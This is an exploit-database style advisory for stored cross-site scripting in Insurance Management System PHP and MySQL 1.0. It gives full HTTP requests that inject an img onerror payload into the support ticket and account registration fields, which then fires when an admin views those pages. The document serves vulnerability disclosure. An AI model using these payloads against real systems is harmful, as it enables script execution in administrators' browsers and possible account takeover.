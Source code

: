 # Exploit Title: Insurance Management System PHP and MySQL 1.0 - Multiple Stored XSS
# Date: 2024-02-08
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html
# Version: 1.0
# Tested on: Windows / PHP 8.1 & XAMPP 3.3.0

## Support Ticket

Click on Support Tickets > Generate and add payload  < img src=x onerror=prompt("xss")> to Subject and Description fields, then send the request. When admin visits the Support Tickets page, XSS will be triggered.

   Example Request :
	    POST /e-insurance/Script/user/core/new_ticket HTTP/1.1
		Host: localhost
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 139
		Cookie: PHPSESSID=17ot0ij8idrm2br6mmmc54fg15; __insuarance__logged=1; __insuarance__key=LG3LFIBJCN9DKVXKYS41

		category=4&subject=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&description=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&submit=1

## Create Account

Click on New Account button on login page, then fill the fields. Inject < img src=x onerror=prompt("xss") > payloads to fname, lname, city and street parameter, then click Create Account button. XSS will be triggered when admin visits Users page.

	Example Request : 
		POST /e-insurance/Script/core/new_account HTTP/1.1
		Host: localhost
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 303
		Cookie: PHPSESSID=17ot0ij8idrm2br6mmmc54fg15

		fname=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&lname=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&gender=Male&phone=5554443322&city=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&street=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&email=test1%40test.com&password=Test12345&submit=1

![](XSS1.png)

![](XSS2.png)![](xss4.png)
![](xss3.png)
